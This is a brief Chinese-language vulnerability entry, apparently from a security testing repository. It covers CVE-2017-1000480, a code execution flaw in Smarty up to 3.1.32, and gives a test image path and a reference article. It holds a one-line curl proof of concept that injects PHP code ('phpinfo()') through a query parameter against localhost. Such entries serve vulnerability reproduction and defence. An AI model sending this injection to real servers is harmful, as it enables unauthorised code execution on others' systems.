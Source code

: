 ### 代码执行漏洞

测试镜像

* src/smarty/3.1.20/

影响版本

* <= 3.1.32

参考链接

* [Smarty <= 3.1.32 代码执行漏洞分析—【CVE-2017-1000480】](https://mp.weixin.qq.com/s/MkXv1wU9qIfyGq4izH2VwQ)

Poc

```
curl http://127.0.0.1/?test=*/;phpinfo();/*
```

